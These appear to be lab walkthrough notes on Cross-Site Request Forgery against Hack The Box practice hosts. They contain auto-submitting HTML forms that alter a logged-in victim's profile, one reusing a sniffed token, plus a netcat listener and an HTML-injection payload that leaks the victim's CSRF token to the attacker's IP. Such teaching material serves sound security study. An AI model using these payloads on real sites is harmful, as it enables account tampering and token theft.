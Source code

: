 # Cross-Site Request Forgery (CSRF or XSRF)
## A web application is vulnerable to CSRF attacks when:
1. All the parameters required for the targeted request can be determined or guessed by the attacker
2. The application's session management is solely based on HTTP cookies, which are automatically included in browser requests
## To successfully exploit a CSRF vulnerability, we need
1. To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim
2. The victim to be logged into the application at the time when the malicious cross-site request is issued
In your web application penetration testing or bug bounty hunting endeavors, you will notice a lot of applications that feature no anti-CSRF protections or anti-CSRF protections that can be easily bypassed.
## Cross-Site Request Forgery Example
Activate burp suite's proxy (Intercept On) and configure your browser to go through it.
We notice no anti-CSRF token in the update-profile request. Let's try executing a CSRF attack against our account (Ela Stienen) that will change her profile details by simply visiting another website (while logged in to the target application).
First, create and serve the below HTML page. Save it as notmalicious.html
```
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```
We can serve the page above from our attacking machine as follows.
```
python -m http.server 1337
```
While still logged in as Ela Stienen, open a new tab and visit the page you are serving from your attacking machine http://<VPN/TUN Adapter IP>:1337/notmalicious.html. You will notice that Ela Stienen's profile details will change to the ones we specified in the HTML page we are serving.

# Cross-Site Request Forgery (GET-based)
You should see the below.
The CSRF token is included in the GET request.
Let us simulate an attacker on the local network that sniffed the abovementioned request and wants to deface Julie Rogers' profile through a CSRF attack. Of course, they could have just performed a session hijacking attack using the sniffed session cookie.
First, create and serve the below HTML page. Save it as notmalicious_get.html
```
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

Notice that the CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.
You can serve the page above from your attacking machine as follows.
```
python -m http.server 1337
```
While still logged in as Julie Rogers, open a new tab and visit the page you are serving from your attacking machine http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html. You will notice that Julie Rogers' profile details will change to the ones we specified in the HTML page you are serving.
# Cross-Site Request Forgery (POST-based)
After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.
Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`
Notice that the email is reflected on the page. Let us try inputting some HTML into the email value, such as:
```
<h1>h1<u>underline<%2fu><%2fh1>
```
If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a single quote. We can abuse this to leak the CSRF-Token.
Let us first instruct Netcat to listen on port 8000, as follows.
```
nc -lvnp 8000
```
Now we can get the CSRF token via sending the below payload to our victim.
```
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```
While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/<table background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.
We remind you that this attack does not require the attacker to reside in the local network. HTML Injection is used to leak the victim's CSRF token remotely!